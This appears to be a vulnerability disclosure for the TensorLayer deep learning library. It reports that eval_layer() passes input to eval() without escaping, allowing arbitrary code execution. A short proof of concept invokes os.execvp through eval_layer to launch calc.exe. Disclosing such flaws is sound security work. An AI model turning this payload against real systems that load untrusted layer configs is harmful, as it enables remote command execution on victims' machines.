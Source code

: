 ## :writing_hand: Description

`TensorLayer` is a novel TensorFlow-based deep learning and reinforcement learning library designed for researchers and engineers. It provides an extensive collection of customizable neural layers to build advanced AI models quickly. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

Use of `eval()` in `eval_layer()` function without escaping causes execution of system commands

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
pip install tensorlayer
```

#### Run exploit.py
```python
from tensorlayer.files.utils import eval_layer

eval_layer({'class': 'utils.np.os.execvp', 'args': {'layer_type': 'normal', 'file': 'calc.exe', 'args': ['0']}})
```
